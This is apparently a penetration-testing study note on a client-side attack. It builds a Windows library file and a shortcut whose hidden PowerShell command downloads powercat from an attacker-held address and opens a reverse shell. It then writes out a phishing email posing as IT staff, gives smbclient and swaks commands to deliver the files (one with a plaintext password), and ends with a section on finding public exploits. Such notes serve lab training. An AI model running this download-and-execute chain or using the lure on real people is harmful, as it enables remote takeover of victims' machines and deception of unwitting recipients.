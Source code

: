 Once re-open it, we should paste code again in to `config.Library-ms` in VScode.
Next, create a shortcut `.lnk` file. put below command into the `type the location of the item`.
```powershell
powershell.exe -nop -w hidden -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.173:8000/powercat.ps1'); powercat -c 192.168.45.173 -p 443 -e powershell"
```
name it as `automatic_configuration`. Then `nc -lvnp 443` and host the powercat `python3 -m http.server 8000`, click the short cut to check if reverse shell works.
Send a email to trick to target to run our file.
```
Hello! My name is Dwight, and I'm a new member of the IT Team. 

This week I am completing some configurations we rolled out last week.
To make this easier, I've attached a file that will automatically
perform each step. Could you download the attachment, open the
directory, and double-click "automatic_configuration"? Once you
confirm the configuration in the window that appears, you're all done!

If you have any questions, or run into any problems, please let me
know!
```
Copy **automatic_configuration.lnk** and **config.Library-ms** to our WebDAV directory:
Click `config` directory -> drag `automatic_configuration` into directory -> copy&paste `config` directory into `config` directory.
In this eg. , we use `smb` to deliver the file to the target. (Usually by email)
```bash
cd /home/kali/webdav 
smbclient //192.168.159.195/share -c 'put config.Library-ms'
```
Then wait for the reverse shell.
### Send attachment in email (SMTP, 25)
```bash
sudo swaks -t dave.wizard@supermagicorg.com --from test@supermagicorg.com --attach @config.Library-ms --server 192.168.159.199 --body @body.txt --header "Subject: IT Setup Script" --suppress-data -ap
```
or
```bash
swaks --to jim@relia.com --from maildmz@relia.com --header 'Subject: Bad email!' --body "I've attached the problematic mail." --server 192.168.175.189 --attach @config.Library-ms --auth-user 'maildmz@relia.com' --auth-password 'DPuBT9tGCBrTbR'
```

# Public exploit
### Online
Check downloaded code before execute (important).
[Exploit database](https://www.exploit-db.com/)
[Packet Storm](https://packetstormsecurity.com/)
[Github](https://github.com/)
Google search operators: (eg. Find exploitation for Microsoft Edge site)
```bash
firefox --search "Microsoft Edge site:exploit-db.com"
```
### Offline
Searchsploit:
```bash
sudo apt update && sudo apt install exploitdb
ls -1 /usr/share/exploitdb/exploits
searchsploit [name]
searchsploit [name] -m [EDB-ID]
```
Nmap NSE Scripts:
```bash
grep Exploits /usr/share/nmap/scripts/*.nse
```